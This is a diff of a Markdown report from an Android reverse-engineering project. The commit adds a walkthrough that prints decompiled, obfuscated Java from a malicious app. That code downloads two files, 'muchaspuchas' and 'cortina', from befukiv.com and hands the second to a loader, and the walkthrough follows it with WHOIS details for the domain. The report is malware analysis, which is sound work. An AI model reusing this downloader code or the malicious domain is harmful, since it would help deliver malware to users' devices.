

Before and after one commit to davidjosearaujo/re-android-reversing, a Markdown page: docs/Report.md, the part around the change. Shown: that part at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/docs/Report.md
+++ b/docs/Report.md
@@ -64,6 +64,62 @@ From this, the most important file is the _classes.dex_ file, from which we can
 jadx -d out classes.dex
 ```
 
+## Walkthrough
+### Exploring Application External Accesses
+
+Given that the application contains malware, it's probable that at some point it downloads additional files from external services. We decided to search the codebase for URLs in the 'https://' format. And we found the following Java function.
+
+```
+    public static void a() {
+        String str;
+        y4.p pVar = new y4.p();
+        r.a aVar = new r.a();
+        aVar.c("https://befukiv.com/muchaspuchas");
+        y4.r a7 = aVar.a();
+        r.a aVar2 = new r.a();
+        aVar2.c("https://befukiv.com/cortina");
+        y4.r a8 = aVar2.a();
+        try {
+            y4.t tVar = new y4.d(pVar, a7).a().f6804g;
+            byte[] b2 = tVar.b();
+            y4.o e7 = tVar.e();
+            Charset charset = z4.h.f6957c;
+            if (e7 != null && (str = e7.f6764b) != null) {
+                charset = Charset.forName(str);
+            }
+            f3837g.set(new String(b2, charset.name()).split("\\|"));
+            byte[] b7 = new y4.d(pVar, a8).a().f6804g.b();
+            if (f3839i.get()) {
+                return;
+            }
+            f3838h.getClass();
+            g6.i.h(b7);
+            f3839i.set(true);
+        } catch (Throwable th) {
+            th.printStackTrace();
+        }
+    }
+```
+
+Although it's obfuscated, we can see that it's accessing files from the domain befukiv.com. A DNS search reveals that this domain has two name servers pointing to domains in Russia.
+
+```
+...
+Registrant Email: http://whois.nicenic.net/?page=whoisform
+Admin Email: http://whois.nicenic.net/?page=whoisform&emailtype=admin
+Tech Email: http://whois.nicenic.net/?page=whoisform&emailtype=tech
+Name Server: NS1.ERANS.RU
+Name Server: NS2.ERANS.RU
+DNSSEC: unsigned
+...
+```
+
+At the time this report is being written, the server is accessible, but the resources are not available (it returns a 'not found' response).
+
+But we have access to these files as they were previously downloaded, so it's possible to continue our analysis.
+
+### Exploring 'muchaspuchas' and 'cortina' files
+
 ## Exploring readable files
 
 TODO
````
